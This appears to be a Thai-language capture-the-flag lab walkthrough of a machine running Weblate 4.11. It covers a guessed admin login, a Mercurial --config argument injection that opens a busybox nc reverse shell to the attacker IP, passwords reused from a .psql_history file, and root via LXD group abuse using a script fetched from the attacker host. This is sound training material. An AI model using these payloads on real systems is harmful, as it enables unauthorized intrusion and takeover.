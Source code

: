 
# Recon 

## TCP Scan 
```Bash 
sudo ../tools/scan.sh 192.168.146.19
[*] Running rustscan...
[*] Running nmap on ports: 22,80,8000
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 05:43 EDT
Nmap scan report for 192.168.146.19
Host is up (0.031s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4e:eb:da:e8:00:da:40:3d:f4:22:ad:fb:41:2c:2a:4c (ECDSA)
|_  256 de:dc:7b:84:9e:6e:d8:fa:98:23:2b:9e:71:67:88:fe (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Book Bargains Online
8000/tcp open  http    WSGIServer 0.2 (Python 3.10.12)
|_http-server-header: WSGIServer/0.2 CPython/3.10.12
| http-robots.txt: 31 disallowed entries (15 shown)
| /admin/ /js/ /accounts/ /source/ /comment/ /commit/ 
| /update/ /push/ /reset/ /lock/ /unlock/ /changes/ /changes/csv/ 
|_/search/ /replace/
|_http-title:   Weblate
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.03 seconds
```

## TCP 80 
![[Pasted image 20250703164637.png]]

![[Pasted image 20250703165010.png]]

จากหน้าเว็บเราจะเห็นว่ามีการอ้างถึงชื่อจำนวนหนึ่ง ให้เก้บข้อมูลดังกล่าวไว้ในใจก่อน 
## TCP 8000

![[Pasted image 20250703164738.png]]

จากข้อมูลข้างต้นจะเห็นว่าระบบเป้าหมายมีการใช้งาน Weblate 4.11 
![[Pasted image 20250703164823.png]]

![[Pasted image 20250703164847.png]]

จากข้อมูลข้างต้นทำให้ทราบว่าเราสามารถทำ Exploit ด้วย RCE ไปยังเป้าหมายได้ แต่เราจะต้อง Login เข้าสู่ระบบให้ได้ก่อน ดังนั้นจึงทดสอบ Login ด้วย user: admin และ Password จากชื่อที่ได้จาก Port 80 ซึ่งเราสามารถเข้าได้โดยใช้ 
`admin:niffenegger`

![[Pasted image 20250703165220.png]]

![[Pasted image 20250703165328.png]]

# Web Exploit 

จาก Payload ที่เราได้ตอนแรกให้ทดสอบ

## เพิ่ม Project 
ไปที่ `http://192.168.146.19:8000/create/project/` และใส่ข้อมูลดังต่อไปนี้ 

```http
Project name: poc
URL slug: poc
Project website: http://localhost
```

จากนั้นเลือก save
![[Pasted image 20250703165553.png]]

## สร้าง Translation Component 

```http
http://192.168.146.19:8000/create/component/?project=1
```

```payload
Version control system: Mercurial
Source code repository: http://localhost:8888
Repository branch: --config=alias.pull=!id>/app/cache/static/output_rce.txt
```


![[Pasted image 20250703170504.png]]

จะเห็นว่าไม่สามารถ Exploit ได้ เนื่องจากไม่มี Directory อยู่ในระบบ จากนั้นลองทดสอบเปลี่ยน Payload 
` --config=alias.pull=!id>$(pwd)/output_rce.txt`

![[Pasted image 20250703170612.png]]

## Command injection 
จะเห็นว่า Pattern ของ Error เปลี่ยนไป จากนั้นเราจะลองทดสอบใช้คำสั่ง ping โดยอาศัยการทำ Command Injection 
```bash
# Payload 
--config=alias.pull=!id>$(ping -c 2 192.168.45.191)/output_rce.txt

# Attacker 
sudo tcpdump -i tun0 icmp
```

![[Pasted image 20250703170800.png]]

จะเห็นได้ว่าเราสามารถ ping โต้ตอบได้ จากนั้นให้ทำการแก้ไข Payload เป็น Reverse Shell โดยใช้ Busybox `--config=alias.pull=!id >$(busybox nc 192.168.45.191 443 -e /bin/bash)/output_rce.txt`


# Shell as tom 

![[Pasted image 20250703170948.png]]

Upgrade shell using python `python3 -c 'import pty;pty.spawn("/bin/bash")'`

## Check /home/tom

```bash
tom@fikklish:/home/tom$ cat .psql_history
cat .psql_history
GRANT ALL PRIVILEGES ON DATABASE WEBLATE to WEBLATE;
ALTER USER WEBLATE PASSWORD 'RapidlyLockstepDrenched103';
q
\q
ALTER USER WEBLATE PASSWORD 'RollingShockingLifter231';
\q
tom@fikklish:/home/tom$ 
```

ทดสอบ ssh ด้วย tom:RapidlyLockstepDrenched103 

![[Pasted image 20250703171312.png]]


# Privilege Escalation

```bash
tom@fikklish:~$ sudo -l
[sudo] password for tom: 
Matching Defaults entries for tom on fikklish:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tom may run the following commands on fikklish:
    (ALL) /home/tom/checkout.rb
    (ALL) /home/tom/fetch.rb
tom@fikklish:~$ 
```

```bash
tom@fikklish:~$ cat checkout.rb
#!/usr/bin/ruby

require 'git'

puts "Name of the project: "
name = gets
g = Git.init('/root/projects/' + name.chomp)

puts "Location of branch: "
branch = gets
g.checkout(branch.chomp)

##########################################################

tom@fikklish:~$ cat fetch.rb
#!/usr/bin/ruby

require 'git'

puts "Name of the project: "
name = gets
g = Git.init('/root/projects/' + name.chomp)

puts "Custom origin name, if applicable: "
origin = gets

puts "Location of branch: "
ref = gets
g.fetch(origin.chomp, {:ref => ref.chomp} )
tom@fikklish:~$ 
```

ทำมาพักนึงปรากฎว่าไม่สามารถยกระดับสิทธิได้ จึงหาทางอื่น 

## LXD Privilege Escalation
โดยให้ลองใช้คำสั่ง `id` จะพบว่า tom มีสิทธิของ lxd ซึ่งเป็น Container บน Linux 

```bash
id
```

![[Pasted image 20250703215137.png]]

tom อยู่ในกลุ่มของ lxd ซึ่งหากตรวจสอบสาารถใช้สำหรับทำ Privilege Escalation ได้ 
![[Pasted image 20250703164919.png]]
ref: `https://github.com/samoN1k0la/LXD-Privilege-Escalation`
ref: `https://github.com/0bfxgh0st/lxd-privesc-exploit.git`

```bash
## Attacker machine
git clone https://github.com/0bfxgh0st/lxd-privesc-exploit.git
python3 -m http.server 80 

## Victim 
wget http://192.168.45.191/lxd-privesc-exploit.sh
lxc profile device add default root disk pool=default path=/   # นี่คือส่วนสำคัญของการโจมตี คำสั่งนี้จะเพิ่มอุปกรณ์ (device) เข้าไปในโปรไฟล์ LXD ชื่อ `default` โดยอุปกรณ์ที่เพิ่มเข้ามาคือดิสก์ (disk) ที่จะถูกเมาท์ (mount) ไปยังตำแหน่ง `/` (root directory) ของ Host (เครื่อง Victim) นั่นหมายความว่าคอนเทนเนอร์ LXD ที่รันด้วยโปรไฟล์ `default` จะสามารถเข้าถึงไฟล์ระบบของเครื่อง Host ได้โดยตรง 
chmod +x lxd-privesc-exploit.sh
./lxd-privesc-exploit.sh
### Enter to ROOT 
```

**`lxc profile device add default root disk pool=default path=/`**
คำสั่งนี้เป็นการ **เพิ่มอุปกรณ์ (device)** เข้าไปใน **โปรไฟล์ (profile)** ของ LXD
- **`lxc profile device add`**: นี่คือส่วนคำสั่งหลักที่บอกให้ LXD "เพิ่มอุปกรณ์" เข้าไปในโปรไฟล์
- **`default`**: นี่คือชื่อของ **โปรไฟล์ LXD** ที่เรากำลังจะแก้ไข ใน LXD จะมีโปรไฟล์ที่ชื่อ `default` อยู่แล้ว ซึ่งมักจะถูกใช้เป็นค่าตั้งต้นสำหรับคอนเทนเนอร์ใหม่ๆ ถ้าคุณสร้างคอนเทนเนอร์โดยไม่ได้ระบุโปรไฟล์อื่น LXD ก็จะใช้โปรไฟล์ `default` นี้แหละ
- **`root`**: นี่คือ **ชื่อของอุปกรณ์** ที่เรากำลังจะเพิ่มเข้าไปในโปรไฟล์ คุณสามารถตั้งชื่ออุปกรณ์อะไรก็ได้ แต่อุปกรณ์ที่ทำหน้าที่เป็น "ดิสก์หลัก" ของคอนเทนเนอร์มักจะถูกตั้งชื่อว่า `root` เพื่อให้เข้าใจง่าย
- **`disk`**: นี่คือ **ชนิดของอุปกรณ์** ที่เรากำลังจะเพิ่มเข้าไป ซึ่งในที่นี้คืออุปกรณ์ประเภท "ดิสก์"
- **`pool=default`**: นี่เป็นการระบุว่าดิสก์นี้จะใช้ **พื้นที่จัดเก็บ (storage pool)** ชื่อ `default` ซึ่งเป็น storage pool ที่ถูกสร้างขึ้นมาตอนที่คุณตั้งค่า LXD ครั้งแรก
- **`path=/`**: นี่คือส่วนที่ **อันตรายและสำคัญที่สุด** ของคำสั่งนี้ มันหมายถึง **"เมาท์ (mount) ดิสก์นี้เข้าไปยังตำแหน่ง `/` (root directory) ของเครื่อง Host (เครื่องหลักที่รัน LXD)"**

![[Pasted image 20250703215707.png]]

```bash
ls -la /mnt/root/
```

![[Pasted image 20250703162927.png]]

# PWN